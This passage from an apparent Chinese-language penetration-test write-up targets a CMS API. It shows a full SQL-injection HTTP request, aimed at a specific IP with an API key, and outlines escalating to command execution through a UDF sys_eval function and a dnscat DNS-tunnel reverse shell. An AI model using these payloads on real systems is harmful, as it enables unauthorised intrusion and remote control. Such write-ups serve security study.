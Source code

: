 [![](assets/1708919820-4f51cdb717e9c5ddcf6d7f71c526c3bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024830-a56be1ce-cb69-1.png)

于是乎我们就可以构造响应的攻击发包

```bash
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"' and 1=(select @@Version)--","groupId":0,"page":1,"perPage":24}`
```

但这里的数据库只有 DNS 流量出网这里 sql 的命令执行结果只能 curl 出来，并且我们只能执行 sql 语句，这里我们搭一下大头哥的便车（[https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py）要是我们想要顺利执行命令就需要加载一个udf.so并且建立一个可以执行命令sys\_eval函数](https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py%EF%BC%89%E8%A6%81%E6%98%AF%E6%88%91%E4%BB%AC%E6%83%B3%E8%A6%81%E9%A1%BA%E5%88%A9%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E5%B0%B1%E9%9C%80%E8%A6%81%E5%8A%A0%E8%BD%BD%E4%B8%80%E4%B8%AAudf.so%E5%B9%B6%E4%B8%94%E5%BB%BA%E7%AB%8B%E4%B8%80%E4%B8%AA%E5%8F%AF%E4%BB%A5%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4sys_eval%E5%87%BD%E6%95%B0)

哦我们可以利用上述脚本完成 DNS 隧道反弹 shell 的操作

首先 run 上述脚本会写入 udf.so 创建 sys\_eval 函数并且写入 dnscat 工具，dnscat 工具可以实现利用 DNS 隧道反弹 shell，之后在自己的 vps 上添加云 dns 解析域名，最好是没有正在使用的域名，需要分别设置一个 A 记录和 NS 记录
